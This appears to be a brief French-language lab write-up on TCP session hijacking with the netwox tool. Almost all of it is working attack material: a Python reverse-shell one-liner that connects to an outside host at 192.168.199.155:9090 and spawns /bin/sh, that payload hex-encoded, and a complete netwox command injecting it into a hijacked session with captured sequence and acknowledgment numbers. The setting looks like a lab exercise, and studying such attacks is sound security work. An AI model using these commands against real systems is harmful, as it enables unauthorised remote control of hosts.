 # Telnet Session hijacking with netwox

Source Port: 33186
Sequence Number (raw): 3920446218
Acknowledgment number (raw): 3464422836
## get shell code for reverse shell
On va executer un command linux sur serveur :
Encoder en hex ce code par utiliser python2 :
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.199.155",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’<et un enter ici ‘0A’ en hex>
```
### On obtient:
```
"0a707974686f6e202d632027696d706f727420736f636b65742c73756270726f636573732c6f733b733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c736f636b65742e534f434b5f53545245414d293b732e636f6e6e6563742828223139322e3136382e3139392e313535222c3930393029293b6f732e6475703228732e66696c656e6f28292c30293b206f732e6475703228732e66696c656e6f28292c31293b206f732e6475703228732e66696c656e6f28292c32293b703d73756270726f636573732e63616c6c285b222f62696e2f7368222c222d69225d293b27"  <--- on va ajouter un 0a ici
```
### netwox command
```
$ sudo netwox 40 --ip4-src 192.168.199.159 --ip4-dst 192.168.199.156 --tcp-dst 22 --tcp-src 33186 --tcp-seqnum 3920446218 --tcp-acknum 3464422836 -A -z --tcp-window 2000 --tcp-data "0a707974686f6e202d632027696d706f727420736f636b65742c73756270726f636573732c6f733b733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c736f636b65742e534f434b5f53545245414d293b732e636f6e6e6563742828223139322e3136382e3139392e313535222c3930393029293b6f732e6475703228732e66696c656e6f28292c30293b206f732e6475703228732e66696c656e6f28292c31293b206f732e6475703228732e66696c656e6f28292c32293b703d73756270726f636573732e63616c6c285b222f62696e2f7368222c222d69225d293b270a"
```
